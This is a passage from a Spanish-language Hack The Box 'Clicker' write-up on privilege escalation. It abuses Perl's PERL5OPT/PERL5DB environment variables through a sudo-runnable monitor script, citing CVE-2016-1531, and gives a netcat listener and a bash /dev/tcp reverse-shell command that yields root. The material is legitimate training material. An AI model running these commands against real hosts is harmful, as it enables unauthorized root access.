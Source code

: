 El archivo que podemos ejecutar como sudo es `/opt/monitor.sh`.  
Listamos los permisos del archivo.
```bash
ls -la /opt/monitor.sh
```
Observamos que nuestro usuario actual tiene permisos de ejecución.  
![Desktop View](/writeup-htb-clicker/ls2.png)
_Listar permisos_
Visualizamos su contenido.
```bash
cat /opt/monitor.sh
```
Los puntos a resaltar son que se recuperan datos desde la URL `http://clicker.htb/diagnostic.php?token=secret_diagnostic_token` y luego estos datos se formatean con el programa `xml_pp`.
![Desktop View](/writeup-htb-clicker/cat.png)
_visualizar código_

Revisamos el código fuente de `diagnostic.php`. PD: Este código está dentro del backup que se obtuvo en la parte de enumeración.    
El punto más importante es que se extrae las `variables de entorno` y se coloca dentro de la etiqueta `environment`.
![Desktop View](/writeup-htb-clicker/diagnostic.png)
_diagnostic.php_
Ahora visualicemos el código de `xml_pp`.
```bash
cat /usr/bin/xml_pp
```
Este programa está escrito en `PERL`.
![Desktop View](/writeup-htb-clicker/xml_pp.png)
_xml_pp_
> Este programa debe tener una vulnerabilidad referente a `PERL` y a las `variables de entorno`.
{: .prompt-tip }
Buscamos en google y encontramos el siguiente artículo [**HACKING WITH ENVIRONMENT VARIABLES**](https://www.elttam.com/blog/env/).
> Donde indica que la vulnerabilidad `CVE-2016-1531` permite ejecutar comandos en `PERL` por medio de `variables de entorno`. 
{: .prompt-info }
Para explotar la vulnerabilidad debemos hacer lo siguiente.
- Colocar la variable de entorno `PERL5OPT` con el valor `-d` y la variable `PERL5DB` con el valor de `system('id')`; donde en el interior de system va el comando a ejecutar.
- Declaramos las variables y ejecutamos el programa.
```bash
sudo PERL5OPT=-d PERL5DB="system('id')" /opt/monitor.sh
```
El comando id se ejecutó con éxito, por lo tanto, este programa si era vulnerable al `CVE-2016-1531`.
![Desktop View](/writeup-htb-clicker/monitor.png)
_Ejecución monitor_

Ahora podemos ejecutar un comando para obtener una shell de root.    
Para ello colocamos puerto 1234 en escucha.  
```bash
nc -lvnp 1234
```
Ejecutamos el siguiente comando en la máquina víctima.  
```bash
sudo PERL5OPT=-d PERL5DB="system('bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.10/1234 0>&1\"')" /opt/monitor.sh
```
> Donde: bash -c "/bin/bash -i >& /dev/tcp/10.10.14.10/1234 0>&1" permite obtener una shell.  
{: .prompt-info }
![Desktop View](/writeup-htb-clicker/monitor2.png)
_Ejecución monitor_
